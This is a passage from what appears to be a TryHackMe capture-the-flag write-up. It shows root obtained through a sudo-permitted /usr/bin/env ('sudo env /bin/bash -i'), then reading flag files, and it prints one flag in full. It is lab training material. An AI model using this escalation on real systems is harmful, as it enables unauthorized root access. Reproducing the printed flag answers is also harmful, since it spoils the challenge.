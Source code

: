 ```
$ sudo -l
Matching Defaults entries for www-data on 07a3b42783b3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 07a3b42783b3:
    (root) NOPASSWD: /usr/bin/env
$ 

```
Run `sudo env /bin/bash -i ` to get root shell and

You can find this command on this site [GTFObin](https://gtfobins.github.io/) 

```
$ sudo env /bin/bash -i
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@07a3b42783b3:/# 

```

type `ls` command and you will see flag3

```
root@07a3b42783b3:~# ls
ls
flag3.txt
root@07a3b42783b3:~# cat flag3.txt
cat flag3.txt
THM{D1ff3r3nt_**************_874112}
root@07a3b42783b3:~# 
```


I also tried this command to find all the flag 

`find / -type f -name flag 2>/dev/null`

but there is nothing to see

Ater searching for a while I found flag2 in this folder `/var/www`

```
root@07a3b42783b3:/var/www# ls
ls
flag2_QMW7JvaY2LvK.txt
html
root@07a3b42783b3:/var/www# cat flag2_QMW7JvaY2LvK.txt
cat flag2_QMW7JvaY2LvK.txt
THM{LF1_t0_RC3_aec3fb}
root@07a3b42783b3:/var/www# 

```

And then I found `backup.sh` in /opt/backups folder 
